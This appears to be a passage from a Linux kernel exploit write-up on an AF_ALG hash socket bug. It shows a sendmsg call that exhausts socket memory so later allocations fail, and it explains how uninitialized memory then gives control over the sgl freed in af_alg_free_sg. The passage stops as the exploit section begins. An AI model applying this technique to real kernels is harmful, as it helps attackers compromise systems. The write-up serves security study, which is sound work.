 ```C
        .msg_control = buf,
        .msg_controllen = 0x4cdf,
    };
    sendmsg(opfd2, &msg, 0);
```
At `____sys_sendmsg` it will use `sock_kmalloc` to copy msg control data, so it also can increase `sk->sk_omem_alloc` and we can make future sock_kmalloc fails.
```C
static int ____sys_sendmsg(struct socket *sock, struct msghdr *msg_sys,
			   unsigned int flags, struct used_address *used_address,
			   unsigned int allowed_msghdr_flags)
{
	....
		BUILD_BUG_ON(sizeof(struct cmsghdr) !=
			     CMSG_ALIGN(sizeof(struct cmsghdr)));
		if (ctl_len > sizeof(ctl)) {
			ctl_buf = sock_kmalloc(sock->sk, ctl_len, GFP_KERNEL);
			if (ctl_buf == NULL)
				goto out;
		}
		err = -EFAULT;
		if (copy_from_user(ctl_buf, msg_sys->msg_control_user, ctl_len))
			goto out_freectl;
		msg_sys->msg_control = ctl_buf;
```

So with this bug we can reach `af_alg_free_sg` and control whole `sgl` because of uninitialized memory:
```C
void af_alg_free_sg(struct af_alg_sgl *sgl)
{
	int i;

	if (sgl->sgt.sgl) {
		if (sgl->need_unpin)
			for (i = 0; i < sgl->sgt.nents; i++)
				unpin_user_page(sg_page(&sgl->sgt.sgl[i]));
		if (sgl->sgt.sgl != sgl->sgl)
			kvfree(sgl->sgt.sgl);
		sgl->sgt.sgl = NULL;
	}
}
```

# Exploit
`sgl` is comes from `hash_ctx` object,  it's allocated at `hash_accept_parent_nokey` when we call accept on bound alg hash socket.
```C
static int hash_accept_parent_nokey(void *private, struct sock *sk)
{
	struct crypto_ahash *tfm = private;
	struct alg_sock *ask = alg_sk(sk);
	struct hash_ctx *ctx;
	unsigned int len = sizeof(*ctx) + crypto_ahash_reqsize(tfm);

	ctx = sock_kmalloc(sk, len, GFP_KERNEL);
	if (!ctx)
		return -ENOMEM;
```
